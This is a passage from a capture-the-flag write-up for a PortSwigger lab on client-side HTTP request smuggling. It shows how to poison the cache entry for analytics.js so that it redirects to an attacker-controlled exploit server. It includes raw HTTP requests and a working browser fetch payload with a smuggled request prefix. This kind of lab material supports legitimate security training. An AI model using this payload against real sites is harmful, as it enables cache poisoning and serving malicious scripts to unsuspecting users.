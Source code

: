 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226171034.png)

**Next, in the normal request, change the path to point to the JavaScript file at `/resources/js/analytics.js`:**
```http
GET /resources/js/analytics.js HTTP/1.1
Host: 0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net
```

**Send the two requests in sequence down a single connection:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226171145.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226171155.png)

As you can see, the request for the `analytics.js` file received a redirect response to our exploit server.

#### Trigger the desync from a browser again

**Before we continue, make sure that we clear the cache first:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226171524.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226171549.png)

**Browser testing payload:**
```js
fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/..%2f', {
    method: 'POST',
    body: 'GET //exploit-0af6007803d9848ac020db8601250091.exploit-server.net/eXpLoIt HTTP/1.1\r\nX-Foo: x', // malicious prefix
    credentials: 'include', // poisons the "with-cookies" connection pool
    mode: 'no-cors' // ensures the connection ID is visible on the Network tab
}).then(() => {
    location='https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/resources/js/analytics.js'
})
```

> Note: This time we want to redirect our browser to the exploit server. So that the `/resources/js/analytics.js` will be poisoned with our own exploit server one.

When the browser attempts to import the resource on the target site, it will use its poisoned cache entry and be redirected back to your malicious page for a third time.

We should able to land on the exploit server's "Hello world" page.
    
- On the **Network** tab, you should see three requests:
    - The main request, which triggered a server error.
    - A request for the `analytics.js` file, which received a redirect to your exploit server.
    - A request for the exploit server after following the redirect.
- With the **Network** tab still open, go to the login page.
- On the **Network** tab, find the most recent request for `/resources/js/analytics.js`. Notice that not only did this receive a redirect response, but this came from the cache. If you select the request, you can also see that the `Location` header points to your exploit server. This confirms that you have successfully poisoned the cache via a browser-initiated request.
